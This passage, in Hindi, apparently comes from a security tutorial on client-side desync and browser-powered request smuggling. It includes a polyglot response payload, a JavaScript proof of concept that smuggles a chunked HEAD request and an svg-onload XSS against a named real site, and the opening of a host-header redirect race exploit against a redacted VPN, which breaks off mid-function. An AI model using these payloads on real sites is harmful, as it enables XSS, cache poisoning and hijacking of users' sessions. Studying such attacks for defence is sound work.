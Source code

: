 **विक्टिम** द्वारा **हमलावर** के पेज का दोहरा **पहुंच** होगा, पहले में वह एक HTML की **उम्मीद** करेगा जो विक्टिम को `https://redacted/+CSCOE+/logon.html` पर वापस रीडायरेक्ट करेगा और दूसरे में वह जावास्क्रिप्ट कोड की **उम्मीद** करेगा (पेलोड)। एक पॉलिग्लॉट का उपयोग किया जा सकता है ताकि दोनों प्रतिक्रियाएँ केवल एक में सेव की जा सकें:
```
HTTP/1.1 200 OK
Content-Type: text/html

alert('oh dear')/*<script>location = 'https://redacted/+CSCOE+/logon.html'</script>*/
```
### HEAD पेलोड चंक्ड TE के साथ

CSD की तलाश करते समय आप `/..%2f` या `/%2f` जैसे **अर्ध-विकृत** URL का भी परीक्षण कर सकते हैं।

* **रंगीन अपवाद**

![](<../../.gitbook/assets/image (5) (2) (1).png>)

* **JS अपवाद**
```javascript
fetch('https://www.verisign.com/%2f', {
method: 'POST',
body: `HEAD /assets/languagefiles/AZE.html HTTP/1.1\r\nHost: www.verisign.com\r\nConnection: keep-alive\r\nTransfer-Encoding: chunked\r\n\r\n34d\r\nx`,
credentials: 'include',
headers: {'Content-Type': 'application/x-www-form-urlencoded'
}}).catch(() => {
let form = document.createElement('form')
form.method = 'POST'
form.action = 'https://www.verisign.com/robots.txt'
form.enctype = 'text/plain'
let input = document.createElement('input')
input.name = '0\r\n\r\nGET /<svg/onload=alert(1)> HTTP/1.1\r\nHost: www.verisign.com\r\n\r\nGET /?aaaaaaaaaaaaaaa HTTP/1.1\r\nHost: www.verisign.com\r\n\r\n'
input.value = ''
form.appendChild(input)
document.body.appendChild(form)
form.submit()
}
```
* पृष्ठ **`/%2f`** तक पहुंचा जाता है ताकि **CL.0** कमजोरी का शोध लगाया जा सके।
* एक **HEAD** अनुरोध को एक **`Transfer-Encoding: chunked` हैडर** का उपयोग करके चोरी किया जाता है।
* इस स्थिति में यह हैडर आवश्यक है क्योंकि अन्यथा **सर्वर एक शरीर वाले HEAD अनुरोध को स्वीकार करने से इनकार करता है**।
* फिर, उपयोगकर्ता एक POST भेजता है जिसके शरीर में **पिछले HEAD अनुरोध का अंत चंक** और एक **नया अनुरोध जो चोरी किया गया है** शामिल होता है जिसमें **सामग्री** (JS पेलोड) होती है जो प्रतिक्रिया में **प्रतिबिंबित** होगी।
* इसलिए ब्राउज़र **HEAD** अनुरोध को **POST अनुरोध के रूप में प्रतिक्रिया** के रूप में देखेगा जिसमें उपयोगकर्ता के इनपुट को प्रतिबिंबित करने वाली **शरीर** प्रतिक्रिया भी होगी।

### होस्ट हेडर पुनर्निर्देशन + RC

* **JS शोषण**
```html
<script>
function reset() {
fetch('https://vpn.redacted/robots.txt',
{mode: 'no-cors', credentials: 'include'}
).then(() => {
x.location = "https://vpn.redacted/dana-na/meeting/meeting_testjs.cgi?cb="+Date.now()
})
setTimeout(poison, 120) // worked on 140. went down to 110
}

function poison(){
```